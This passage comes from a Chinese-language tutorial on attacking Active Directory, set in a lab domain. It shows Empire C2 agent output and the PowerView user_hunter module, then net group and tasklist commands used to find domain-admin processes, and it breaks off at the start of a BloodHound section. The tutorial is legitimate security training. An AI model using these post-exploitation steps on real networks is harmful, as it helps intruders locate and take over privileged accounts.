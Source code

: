 ```
(Empire: listeners) > agents[*] Active agents: Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen ----     -- -----------     ------------      --------                -------            ---    -----    --------- 3XRCWAB2 ps 192.168.7.7     DC                *TEAMSSIX\administrator powershell         2256   5/0.0    2021-02-22 20:39:54(Empire: agents) > usemodule powershell/powershell/situational_awareness/network/powerview/user_hunter(Empire: powershell/situational_awareness/network/powerview/user_hunter) > set Agent 3XRCWAB2(Empire: powershell/situational_awareness/network/powerview/user_hunter) > execute[*] Tasked 3XRCWAB2 to run TASK_CMD_JOB[*] Agent 3XRCWAB2 tasked with task ID 1[*] Tasked agent 3XRCWAB2 to run module powershell/situational_awareness/network/powerview/user_hunter[*] Valid results returned by 192.168.7.7……
```

## 6、查找域管理员进程

### 获取域管理员列表

```
net group "Domain Admins" /domain
```

```
C:\Users\daniel10>net group "Domain Admins" /domain这项请求将在域 teamssix.com 的域控制器处理。组名     Domain Admins注释     指定的域管理员成员-------------------------------------------------------------------------------Administrator命令成功完成。
```

### 列出本机的所有进程及进程用户

```
tasklist /v
```

```
C:\Users\daniel10>tasklist /v映像名称                       PID 会话名              会话#       内存使用  状态            用户名                                                 CPU 时间 窗口标题========================= ======== ================ =========== ============ =============== ================================================== ============ ========================================================================System Idle Process              0 Services                   0          8 K Unknown         NT AUTHORITY\SYSTEM                                    68:35:16 暂缺System                           4 Services                   0        924 K Unknown         暂缺                                                    0:24:14 暂缺svchost.exe                   9228 Console                    2      2,932 K Unknown         TEAMSSIX\daniel10                                       0:00:00 暂缺tasklist.exe                 10768 Console                    2      9,540 K Unknown         TEAMSSIX\daniel10                                       0:00:00 暂缺……内容过多省略……
```

如果在列出的进程中看到了用户名为管理员用户名的话，便是找到了域管理员进程。

# 0x05 BloodHound 的使用

## 1、介绍
